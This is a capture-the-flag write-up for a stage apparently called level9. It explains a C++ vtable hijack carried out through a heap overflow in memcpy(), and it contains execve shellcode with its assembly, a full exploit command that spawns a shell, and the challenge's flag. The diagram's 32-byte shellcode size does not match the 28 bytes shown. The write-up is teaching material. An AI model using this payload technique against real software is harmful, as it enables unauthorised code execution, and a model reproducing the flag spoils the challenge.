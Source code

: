 # Level 9: C++ Vtable Hijacking Exploit Explanation

## Overview
Level 9 exploits a C++ vtable hijacking vulnerability through a buffer overflow in the `memcpy()` function. This is a sophisticated attack that manipulates C++ object virtual function tables to redirect code execution.

## The Vulnerability
The binary creates two C++ objects (`N n1(5)` and `N n2(6)`) on the heap and uses `memcpy()` to copy user input into `n1`'s buffer without proper bounds checking.

```cpp
// Vulnerable code structure
class N {
    char annotation[100];  // Buffer at offset 0x4
    int number;           // Value at offset 0x68
    // vtable pointer at offset 0x0
};
```

## Memory Layout on Heap
When objects are allocated:
```
0x804a008: n1 object start
0x804a00c: n1->annotation buffer (our shellcode goes here)
0x804a070: n1->number
0x804a074: n2 object start  
0x804a078: n2->annotation buffer
0x804a0dc: n2->number
```

## The Exploit Strategy

### 1. Vtable Hijacking Concept
- Each C++ object has a vtable pointer at offset 0x0 pointing to its virtual function table
- When `n1 + n2` is called, it invokes `n1->operator+(n2)` via the vtable
- We overwrite n2's vtable pointer to point to our fake vtable
- Our fake vtable contains an address pointing to shellcode

### 2. Payload Structure
```
┌─────────────────┬─────────────────┬─────────────────┬─────────────────┐
│ Fake Vtable     │   Shellcode     │    Padding      │ Vtable Pointer  │
│ (4 bytes)       │   (32 bytes)    │   (76 bytes)    │   (4 bytes)     │
└─────────────────┴─────────────────┴─────────────────┴─────────────────┘
│                 │                 │                 │
│                 │                 │                 └─ Points to fake vtable
│                 │                 └─ Reaches n2's vtable ptr at offset 108  
│                 └─ Our malicious code
└─ Points to shellcode (vtable entry for operator+)
```

### 3. Detailed Breakdown

**Part 1: Fake Vtable Entry (4 bytes)**
```python
"\x10\xa0\x04\x08"  # Address 0x0804a010 (points to shellcode)
```
- This becomes the fake vtable entry for `operator+`
- Points to offset +4 from buffer start (where shellcode begins)

**Part 2: Shellcode (32 bytes)**
```python
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```
Assembly breakdown:
```asm
xor eax, eax        ; Clear eax
push eax            ; Push NULL terminator
push 0x68732f2f     ; Push "//sh"  
push 0x6e69622f     ; Push "/bin"
mov ebx, esp        ; ebx = "/bin//sh"
mov ecx, eax        ; ecx = NULL (no args)
mov edx, eax        ; edx = NULL (no env)
mov al, 0x0b        ; execve syscall number
int 0x80            ; Execute syscall
xor eax, eax        ; Clear eax for exit
inc eax             ; eax = 1 (exit syscall)
int 0x80            ; Exit cleanly
```

**Part 3: Padding (76 bytes)**
```python
"A" * 76
```
- Fills the remaining space in n1's buffer
- Reaches exactly to n2's vtable pointer at offset 108

**Part 4: Vtable Pointer Override (4 bytes)**
```python
"\x0c\xa0\x04\x08"  # Address 0x0804a00c (points to fake vtable)
```
- Overwrites n2's vtable pointer
- Points to our buffer start where fake vtable is stored

## Execution Flow

1. **Buffer Overflow**: `memcpy()` copies our 112-byte payload into n1's 100-byte buffer
2. **Heap Corruption**: Overflow corrupts n2's vtable pointer at offset 108
3. **Method Call**: `n1 + n2` triggers `n1->operator+(n2)`
4. **Vtable Lookup**: CPU looks up n2's vtable (now points to our buffer)
5. **Function Call**: Calls address from fake vtable (points to our shellcode)
6. **Shell Execution**: Shellcode executes `/bin//sh` and spawns shell

## Key Addresses
- `0x804a00c`: Start of n1's annotation buffer (fake vtable location)
- `0x804a010`: Shellcode location (fake vtable + 4 bytes)
- `0x804a074`: n2's vtable pointer location (offset 108 from n1 start)

## Why This Works
1. **Heap Layout Predictability**: Objects allocated consecutively on heap
2. **No Stack Protection**: Heap-based attack bypasses stack canaries
3. **C++ Vtable Mechanism**: Virtual function calls use indirect addressing
4. **Controlled Overflow**: Precise overflow length overwrites exact target

## Final Payload Command
```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
```

## Result
- Spawns shell as `bonus0` user
- Flag retrieved: `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

## Security Lessons
- C++ vtable hijacking is powerful when heap layout is predictable
- Virtual function calls create indirect jump opportunities
- Proper bounds checking in `memcpy()` would prevent this attack
- Modern mitigations include ASLR, vtable guards, and CFI protection